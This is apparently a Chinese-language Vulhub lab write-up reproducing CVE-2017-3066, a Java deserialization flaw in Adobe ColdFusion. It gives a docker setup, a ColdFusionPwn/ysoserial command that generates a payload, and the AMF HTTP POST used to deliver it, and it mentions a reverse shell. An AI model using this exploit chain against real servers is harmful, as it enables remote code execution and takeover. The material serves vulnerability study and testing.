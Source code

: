 # Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## 漏洞环境

启动漏洞环境：

```
docker-compose up -d
```

等待数分钟时间，环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

我们使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

![](1.png)

进入容器中，发现`/tmp/success`已成功创建：

![](2.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

![](3.png)
